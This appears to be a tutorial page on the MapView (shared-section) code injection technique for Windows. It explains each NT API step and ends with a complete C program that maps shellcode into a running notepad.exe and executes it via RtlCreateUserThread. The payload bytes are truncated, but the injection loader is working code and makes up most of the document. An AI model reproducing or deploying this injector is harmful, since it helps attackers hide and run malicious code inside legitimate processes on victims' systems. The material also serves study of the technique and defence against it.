





This technique has a different way to inject the code on a remote process. MapView Code Injection uses typicall internal operation between processes.
It is common that one process create a new section and shares the data with another process. Every memory section corresponds to one or more views. A view of a section referes to the specific part of the sectio htat is visible and accesible to a process.
So we can map a section to the remote process and create a view in order to share the shellcode to the remote process.
NtCreateSection: Create a new page-file-backed section.NtMapViewOfSection: Map the section view on the local process.memcpy: Copy the payload to the section.NtMapViewOfSection: Map the same section view in the target process.RtlCreateUserThread: Execute the payload on the remote process.
Analysis¶
First we need to create a Section handle on our local process with PAGE_EXECUTE_READWRITE rights.
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
As we can see the new handle 0xAC was successfuly created with FULL_CONTROL cause the section access was defined with SECTION_ALL_ACCESS. We only need SECTION_MAP_READ SECTION_MAP_WRITE and SECTION_MAP_EXECUTE but in that example a full control was set.

Once created the section we need to map to a new local view. A RW rights are needed in order to copy the payload to the section.
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
When the section is already mapped, we can see the memory space on the local process.

Now the payload can be copied to the local view.

In order to execute the payload on a remote process we need to create a remote view of the same section. To do that we need the handler of the target process.
pid = FindProcess("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
As we can see the section was successfuly mapped to the remote process and the payload was delivered on memory.

Finally we can use RtlCreateUserThread to execute the remote view.
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
WaitForSingleObject(hThread, 500);
CloseHandle(hThread);
}

Code¶
Example of MapView injection:
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>
typedef struct _UNICODE_STRING {
USHORT Length;
USHORT MaximumLength;
PWSTR Buffer;
} UNICODE_STRING, *PUNICODE_STRING;
typedef struct _CLIENT_ID {
HANDLE UniqueProcess;
HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;
typedef struct _OBJECT_ATTRIBUTES {
ULONG Length;
HANDLE RootDirectory;
PUNICODE_STRING ObjectName;
ULONG Attributes;
PVOID SecurityDescriptor;
PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;
typedef enum _SECTION_INHERIT {
ViewShare = 1,
ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;
typedef FARPROC (WINAPI * t_RtlCreateUserThread)(
HANDLE ProcessHandle,
PSECURITY_DESCRIPTOR SecurityDescriptor,
BOOLEAN CreateSuspended,
ULONG StackZeroBits,
PULONG StackReserved,
PULONG StackCommit,
PVOID StartAddress,
PVOID StartParameter,
PHANDLE ThreadHandle,
PCLIENT_ID ClientId
);
typedef NTSTATUS (NTAPI * t_NtCreateSection)(
PHANDLE SectionHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PLARGE_INTEGER MaximumSize,
ULONG SectionPageProtection,
ULONG AllocationAttributes,
HANDLE FileHandle
);
typedef NTSTATUS (NTAPI * t_NtMapViewOfSection)(
HANDLE SectionHandle,
HANDLE ProcessHandle,
PVOID * BaseAddress,
ULONG_PTR ZeroBits,
SIZE_T CommitSize,
PLARGE_INTEGER SectionOffset,
PSIZE_T ViewSize,
DWORD InheritDisposition,
ULONG AllocationType,
ULONG Win32Protect
);
int FindProcess(const char *procname) {
HANDLE hProcSnap;
PROCESSENTRY32 pe32;
int pid = 0;
hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
pe32.dwSize = sizeof(PROCESSENTRY32);
if (!Process32First(hProcSnap, &pe32)) {
CloseHandle(hProcSnap);
return 0;
}
while (Process32Next(hProcSnap, &pe32)) {
if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
pid = pe32.th32ProcessID;
printf("[+] Process found -> %s : %d\n", procname, pid);
break;
}
}
CloseHandle(hProcSnap);
return pid;
}
int main(void) {
int pid = 0;
HANDLE hProc = NULL;
HANDLE hThread = NULL;
HANDLE hSection = NULL;
CLIENT_ID cid;
PVOID pLocalView = NULL, pRemoteView = NULL;
NTSTATUS status;
unsigned char payload[] = {0xfc, 0x48, 0x83,...};
SIZE_T payload_len = sizeof(payload);
pid = FindProcess("notepad.exe");
if(pid){
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
if(hProc != NULL){
// Create a Section
t_NtCreateSection pNtCreateSection = (t_NtCreateSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
printf("pNtCreateSection -> status=0x%x\n", status);
printf("\t hSection=0x%p\n", hSection);
getchar();
// Create a local view to the new section
t_NtMapViewOfSection pNtMapViewOfSection = (t_NtMapViewOfSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
printf("pNtMapViewOfSection -> status=0x%x\n", status);
printf("\t pLocalView=0x%p\n", pLocalView);
getchar();
// Copy the payload to the section
memcpy(pLocalView, payload, payload_len);
printf("Payload copied\n");
getchar();
// Create a remote view to the new section
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
printf("pNtMapViewOfSection -> status=0x%x\n", status);
printf("\t pRemoteView=0x%p\n", pRemoteView);
getchar();
// Execute the remote view
t_RtlCreateUserThread pRtlCreateUserThread = (t_RtlCreateUserThread) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
WaitForSingleObject(hThread, 500);
CloseHandle(hThread);
}
}
CloseHandle(hProc);
}else{
printf("[-] Notepad.exe not found!\n");
}
return 0;
}